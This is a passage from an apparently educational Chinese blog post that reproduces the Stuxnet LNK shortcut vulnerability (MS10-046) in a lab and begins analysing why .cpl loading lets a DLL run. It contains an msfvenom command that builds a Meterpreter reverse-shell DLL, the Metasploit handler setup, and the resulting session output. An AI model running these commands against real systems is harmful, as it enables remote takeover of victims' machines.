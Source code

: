 （较长的红色部分改动是Unicode字符串“C:\DLL.DLL”）

接着我们再创建用来反弹shell的`DLL.DLL`：

```bash
msfvenom --payload windows/meterpreter/reverse_tcp LHOST=172.16.56.1 LPORT=4444 --format dll --arch x86 --platform windows --out DLL.DLL
```

将其放在`C:\`。注意，此时我们的快捷方式还在桌面上，它并不会触发漏洞，因为它在无害时已经被桌面窗口加载过了。此时用命令行将它移到C盘中。

接着挂起对反弹shell的监听，然后在“我的电脑”中打开C盘，返回msf，发现目标成功上线：

```
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.56.1
LHOST => 172.16.56.1
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.16.56.1:4444
[*] Sending stage (179779 bytes) to 172.16.56.134
[*] Meterpreter session 1 opened (172.16.56.1:4444 -> 172.16.56.134:1034) at 2018-11-19 15:38:43 +0800
```

只是此时目标机器的“我的电脑”窗口将处于假死状态，只能被强行关闭。所以不能把这个图标PoC放在桌面上，否则一开机就会触发漏洞。只好调出任务管理器用命令行把它移动到C盘，然后重启explorer.exe进程。

这一点我一直没想明白，当初震网在伊朗也是这个表现吗？插入U盘导致窗口假死，还是会引起怀疑的吧？还是说它被做了优化处理？

整体来看，效果还是蛮震撼的，不需要运行任何程序，只需要目标打开窗口“看一眼”就够了。

msf中也有对应的`exploit/windows/browser/ms10_046_shortcut_icon_dllloader`，经过测试，会导致IE崩溃。其新颖的点在于，它是诱使目标访问恶意URL，从而借助WebDAV触发漏洞的。它在lnk文件中指定的路径是`\\192.168.1.101\FtLtw0\jgzXtW.dll`。

震网是借助U盘传播，总之利用方式多种多样。

**更新**

在研究CVE-2017-8464时，我发现有的dll payload会导致崩溃，有的则不会。我对这种情况进行了深入研究，放在[0day安全 External Stuxnet CVE-2017-8464][https://brant-ruan.github.io/0day/2018/11/24/stuxnet3.html]。

## 2 漏洞分析

### 2.0 漏洞触发过程概述

![Screen Shot 2018-11-20 at 4.19.35 PM.png]({{ site.url }}/images/0day/49F497C729B65AE93A1780B93ECD014F.png)

黑红色相接处是问题所在：要加载的是cpl文件，为什么dll文件也能够被加载呢？参考[MS10-046_LNK文件快捷方式漏洞的原理分析(多图杀猫)](https://blog.csdn.net/gaara_fan/article/details/6535461)可知，cpl本质上也是一种dll文件。

这也是我们要用控制面板下工具的快捷方式，而非普通文件的快捷方式的原因——只有这样才能触发cpl加载机制，因为控制面板下的各个工具都是`.cpl`文件。参考[Description of Control Panel (.cpl) Files](https://support.microsoft.com/en-ca/help/149648/description-of-control-panel-cpl-files)：

> Each tool in Control Panel is represented by a .cpl file in the Windows\ System folder. The .cpl files in the Windows\System folder are loaded automatically when you start Control Panel.
